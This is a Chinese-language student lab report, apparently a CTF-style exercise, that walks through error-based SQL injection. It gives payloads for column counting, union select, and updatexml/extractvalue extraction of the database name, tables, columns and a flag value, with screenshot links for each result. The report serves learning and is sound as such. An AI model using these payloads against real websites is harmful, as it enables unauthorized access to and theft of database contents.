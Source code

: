 # 张心玥学习报告03

#### 报错型注入

输入1原始界面

![捕获](https://mdimage-1310802966.cos.ap-nanjing.myqcloud.com/捕获.PNG)

继续输入 1' 得到

![捕1获](https://mdimage-1310802966.cos.ap-nanjing.myqcloud.com/捕1获.PNG)

所以判断闭合类型为1

1. 查询字段数
   1. 输入 1 order by 1 得到

   ![捕2获](https://mdimage-1310802966.cos.ap-nanjing.myqcloud.com/捕2获.PNG)

   2. 输入 1 order by 2 得到

   ![捕3获](https://mdimage-1310802966.cos.ap-nanjing.myqcloud.com/捕3获.PNG)

   3. 输入 1 order by 3 得到

   ![捕4获](https://mdimage-1310802966.cos.ap-nanjing.myqcloud.com/捕4获.PNG)


2. 查询SQL语句插入
   
   输入 1 union select 1,2 得到

   ![捕5获](https://mdimage-1310802966.cos.ap-nanjing.myqcloud.com/捕5获.PNG)


3. 获取数据库名
   
   输入 1 and updatexml(1,concat(0x7e,database()),1) 得到

   ![捕6获](https://mdimage-1310802966.cos.ap-nanjing.myqcloud.com/捕6获.PNG)


4. 获取数据库表名
   输入
    
    1 and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())))

    得到

    ![捕7获](https://mdimage-1310802966.cos.ap-nanjing.myqcloud.com/捕7获.PNG)


5. 获取字段名
   输入
   
    1 and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name=‘flag’)))

    得到

    ![捕8获](https://mdimage-1310802966.cos.ap-nanjing.myqcloud.com/捕8获.PNG)


6. 获取数据
   输入
   
    1 and extractvalue(1,concat(0x7e,(select flag from flag)))

    得到

    ![捕9获](https://mdimage-1310802966.cos.ap-nanjing.myqcloud.com/捕9获.PNG)

   继续输入
   
    1 and extractvalue(1,concat(0x7e,substr((select flag from flag),32,10)))

    得到

    ![捕11获](https://mdimage-1310802966.cos.ap-nanjing.myqcloud.com/捕11获.PNG)